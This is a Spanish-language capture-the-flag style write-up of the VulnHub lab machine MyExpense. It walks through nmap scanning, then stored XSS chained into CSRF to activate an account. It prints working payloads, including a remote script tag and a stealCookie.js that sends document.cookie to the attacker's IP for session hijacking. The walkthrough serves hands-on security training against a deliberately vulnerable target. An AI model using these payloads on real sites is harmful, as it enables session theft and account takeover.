 ```yaml
---
layout: single
title: MyExpense - VulnHub Machine
excerpt: "Máquina linux de la plataforma VulnHub, donde se puede practicar XSS y SQLI"
date: 2023-10-25
classes: wide
header:
  teaser: /assets/images/vh-writeup-myexpense/portada-myexpense.png
  teaser_home_page: true
  icon: /assets/images/vulhub.png
categories:
  - VulnHub
tags:
  - sql
  - sqli
  - xss
  - session
  - hijacking
  - linux
---
```

![](/assets/images/vh-writeup-myexpense/portada-myexpense.png)

MyExpense es una máquina linux de [VulnHub](https://www.vulnhub.com/entry/myexpense-1,405/#top) y a diferencia de las máquinas de [HackTheBox](https://www.hackthebox.com/), su finalidad no la de llegar a ser root en el servidor comprometido.

En este caso, somos un "Samuel Lamotte", exempleado de una empresa la cual nos ha despedido y encima, no nos han tramitado un pago que nos deben. Nuestro objetivo será infiltrarnos en el sistema para que el pago se lleve a cabo.

La única pista que nos dan es: ```samuel/fzghn4lw```, lo cual parecen unas credenciales.

## Índice
* [Fase de reconocimiento](#reconocimiento)
  * [Reconociento de puertos y servicios](#reconocimiento)
  * [Reconocimiento de la página web](#reconocimiento-web)
* [Fase de explotación](#explotacion)
  * [Nos logeamos como slamotte](#slamotte)
  * [Nos convertimos en mriviere](#mriviere)
  * [Nos convertimos en pboundi](#pboundi)

<a id="reconocimiento"></a>
## Fase de reconocimiento

### Reconocimiento de puertos y servicios

Empezaremos utilizando nmap para descubrir los puertos abiertos accesibles(digo accesibles ya que la máquina puede tener más puertos abiertos pero que solo son accesibles desde la misma).
```bash
nmap -p- --open -sS --min-rate 5000 -Pn -n -v 10.0.2.9 -oG allPort
```
allPorts:

```bash 
# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: 10.0.2.9 ()   Status: Up
Host: 10.0.2.9 ()   Ports: 80/open/tcp//http///, 37761/open/tcp/////, 41843/open/tcp/////, 42307/open/tcp/////, 53407/open/tcp///// Igno
red State: closed (65530)
# Nmap done at Mon Oct 23 18:02:42 2023 -- 1 IP address (1 host up) scanned in 2.72 seconds
```

Una vez escaneados los puertos, escanearemos más en profundidad para ver que servicios usan y sus respectivas versiones.

```bash
nmap -p80,37761,41843,42307,53407 -sCV 10.0.2.9 -v -oN targeted
# Nmap 7.93 scan initiated Mon Oct 23 18:04:16 2023 as: nmap -p80,37761,41843,42307,53407 -sCV -v -oN targeted 10.0.2.9
Nmap scan report for 10.0.2.9 (10.0.2.9)
Host is up (0.00069s latency).

PORT      STATE SERVICE VERSION
80/tcp    open  http    Apache httpd 2.4.25 ((Debian))
|_http-title: Futura Business Informatique GROUPE - Conseil en ing\xC3\xA9nierie
|_http-favicon: Unknown favicon MD5: 9B033BAF87652377BA32FF57F736E439
|_http-server-header: Apache/2.4.25 (Debian)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 1 disallowed entry 
|_/admin/admin.php
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
37761/tcp open  http    Mongoose httpd
|_http-title: Site doesn't have a title (text/plain).
| http-methods: 
|_  Supported Methods: GET HEAD POST
41843/tcp open  http    Mongoose httpd
|_http-title: Site doesn't have a title (text/plain).
| http-methods: 
|_  Supported Methods: GET HEAD POST
42307/tcp open  http    Mongoose httpd
|_http-title: Site doesn't have a title (text/plain).
| http-methods: 
|_  Supported Methods: GET HEAD POST
53407/tcp open  http    Mongoose httpd
|_http-title: Site doesn't have a title (text/plain).
| http-methods: 
|_  Supported Methods: GET HEAD POST

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Oct 23 18:04:23 2023 -- 1 IP address (1 host up) scanned in 7.26 seconds
```

Como podemos ver, el servidor tiene el puerto 80 con el servicio *http*. Es más, ha encontrado una ruta llamada ```/admin/admin```.php que tiene una cookie de *PHPSESSION* que tiene el http-only deshabilitado.

Esta flag puede ser crucial si se produce un [XSS (Cross Site Scripting)](https://owasp.org/www-community/attacks/xss/), ya que nos puede permitir hacer un [Session Hijacking](https://en.wikipedia.org/wiki/Session_hijacking).


<a id="reconocimiento-web"></a>
### Reconocimiento de la página web

Podemos acceder a la página ```/admin/admin.php``` sin logearnos en la página y podemos ver una serie de usuario y si están activos o no.

<a id="explotacion"></a>

## Fase de explotación

Entre estos usuarios podemos ver al nuestro: slamotte. Sin embargo, si intentamos logearnos nos dice que no podemos entrar en esta porque está inactiva.

Por lo tanto intentamos crear una nueva, pero por defecto aparece inactiva.

Como el login nos permite escribir un input que luego se refleja en ```/admin/admin.php```, intentamos probar un **XSS**. Creamos un usuario con el FirstName: ```<marquee>Hacked</marquee>```. Cuando vamos a *admin.php* podemos ver que se mueve el texto. Por lo tanto, estamos ante un **XSS**.

Si le damos a activar una cuenta, nos redirigirá a una página diciendo que no tenemos privilegios para hacerlo. Esta petición se hace por *GET* y podemos ver en la URL que se tramita de la siguiente manera: 
```
http://<ip de la maquina>/admin/admin.php?id=11&status=active
```
El campo id es el id del usuario al que queremos activar y el status es al estado al que queremos cambiarlo.

<a id="slamotte"></a>
### Nos logeamos como en slamotte

Si logramos que el administrador realice esta petición activará la cuenta. Esto lo podremos conseguir derivando el **XSS** anterior en un [CSRF(Cross Site Request Forgery)](https://owasp.org/www-community/attacks/csrf).

La idea es que vamos a hacer que el administrador cargue un código malicioso *js* gracias al **XSS**. Este script va a realizar una petición XML a la URL de activarnos la cuenta con suerte de que la ejecute un administrador.

pwned.js:

```js
var request = new XMLHttpRequest();
request.open('GET', 'http://<ip de la máquina>/admin/admin.php?id=11&status=active');
request.send();
```

Ahora creamos un usuario con el siguiente FirstName:
```html
<script src="http://<mi ip>/pwned.js"></script>
```

Iniciamos un servicio *http* en la carpeta en la que tenemos el archivo. Yo lo hago con python desde consola de la siguiente manera:
```py
python -m http.server 80
```

En un momento dado, vemos que hemos recibido una petición *GET* del recurso ```/pwned.js```. Si recargamos la página vemos que el usuario **slamotte** está activo y nos logueamos con las credenciales que teníamos. 

![](/assets/images/vh-writeup-myexpense/slamotte.png)

Una vez como slamotte, podemos ver una especie de chat donde varios usuarios han escrito mensajes. 

Si nos vamos al apartado del perfil, podemos ver quién es nuestro mánager: Manon Riviere (mriviere)

![](/assets/images/vh-writeup-myexpense/whoisManager.png)

Si alguien tiene que tramitar nuestro pago, por lógica tiene que ser él. Por lo tanto tenemos que ver la forma de que nos acepte el pago.

Si intentamos inyectar html en el chat, podremos observar que se produce un *XSS*. La idea aquí será robar las cookie de sesión de la persona que vea el mensaje y probar suerte de que mriviere caiga en nuestra trampa.

Para ello referenciaré un script en *js* llamado ```stealCookie.js```:

```html
<script src="http://<mi ip>/stealCookie.js"></script>
```

stealCookie.js:
```js
var request = new XMLHttpRequest();
request.open('GET', 'http://<mi ip>:4646/cookie=' + document.cookie);
request.send();
```

En este código, se tramita una petición *GET* a nuestra ip con un parámetro llamado cookie donde irá la cookie de la víctima que ejecute este *js*.

> Como se puede observar, esta vez uso el puerto 4646. Esto se debe a que el usuario administrador que visita continuamente a la página ```admin/admin.php``` que nos activó la cuenta de slamotte está continuamente haciendo una petición a nuestro puerto 80. Así que por simplificación usaremos otro puerto.

Una vez hecho esto, obtendremos una serie de cookies de diferentes usuarios. Iremos probando una a una hasta dar con **mriviere**.

![](/assets/images/vh-writeup-myexpense/mriviereReport.png)

Aquí podemos ver la petición del pago y le damos a aceptar. Pero esto no es suficiente, todavía lo tiene que revisar el superior de este usuario. Si nos vamos a su usuario lo encontraremos:

![](/assets/images/vh-writeup-myexpense/whoisManagerOfManager.png)

En las cookies anteriores se encuentra este usuario. Sin embargo, como es un administrador, aparece una alerta de que no pueden haber dos